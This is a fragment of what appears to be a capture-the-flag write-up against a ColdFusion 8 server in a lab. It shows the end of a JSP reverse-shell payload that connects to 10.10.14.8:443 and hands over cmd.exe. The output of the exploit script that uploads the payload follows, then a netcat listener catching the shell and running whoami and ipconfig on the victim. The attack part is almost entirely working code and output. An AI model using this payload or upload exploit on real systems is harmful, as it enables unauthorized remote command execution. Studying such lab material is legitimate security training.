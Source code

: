 ```shell
  ShellPath = new String("cmd.exe");
}

    Socket socket = new Socket( "10.10.14.8", 443 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>

--e2921372af2d435ab7839c8c1c22ad5a--


Sending request and printing response...


		<script type="text/javascript">
			window.parent.OnUploadCompleted( 0, "/userfiles/file/a8b0f6c3f98a496f816e77c8c98d81f2.jsp/a8b0f6c3f98a496f816e77c8c98d81f2.txt", "a8b0f6c3f98a496f816e77c8c98d81f2.txt", "0" );
		</script>
	

Printing some information for debugging...
lhost: 10.10.14.8
lport: 443
rhost: 10.10.10.11
rport: 8500
payload: a8b0f6c3f98a496f816e77c8c98d81f2.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49324
[...]
C:\\ColdFusion8\\runtime\\bin>whoami && ipconfig /all
arctic\\tolis

Windows IP Configuration

   Host Name . . . . . . . . . . . . : arctic
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-F5-5E
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.11(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
[...]
```
